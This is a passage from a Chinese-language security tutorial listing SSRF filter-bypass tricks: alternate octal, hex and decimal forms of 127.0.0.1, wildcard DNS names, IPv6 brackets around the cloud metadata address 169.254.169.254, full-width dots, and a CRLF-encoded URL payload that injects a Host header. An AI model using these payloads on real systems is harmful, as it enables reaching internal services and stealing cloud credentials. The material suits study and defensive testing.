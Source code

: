 ##### 3.采用进制转换

```
127.0.0.1

八进制：0177.0.0.1

十六进制：0x7f.0.0.1

十进制：2130706433
```

![53ec3e464c5f426489983a2f5b83f73d](assets/53ec3e464c5f426489983a2f5b83f73d.png)

##### 4.利用特殊域名

```
原理是DNS解析。xip.io可以指向任意域名，即

127.0.0.1.xip.io，可解析为127.0.0.1

(xip.io 现在好像用不了了，可以找找其他的)
```

##### 5.利用[::]

```
可以利用[::]来绕过localhost

http://169.254.169.254>>http://[::169.254.169.254]
```

##### 6.利用句号

```
127。0。0。1 >>> 127.0.0.1
```

##### 7、CRLF编码绕过

```
%0d->0x0d->\r回车

%0a->0x0a->\n换行

进行HTTP头部注入

example.com/?url=http://eval.com%0d%0aHOST:fuzz.com%0d%0a 
```
